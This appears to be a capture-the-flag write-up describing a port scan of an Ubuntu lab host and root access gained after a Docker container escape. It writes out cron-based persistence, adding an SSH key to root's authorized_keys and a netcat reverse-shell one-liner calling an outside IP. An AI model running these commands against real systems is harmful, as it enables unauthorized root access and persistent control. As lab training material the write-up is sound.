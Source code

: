 # Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container. I don't have more images/logs of this unfortunately.

![docker containers](../docker_containers.png)

## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```
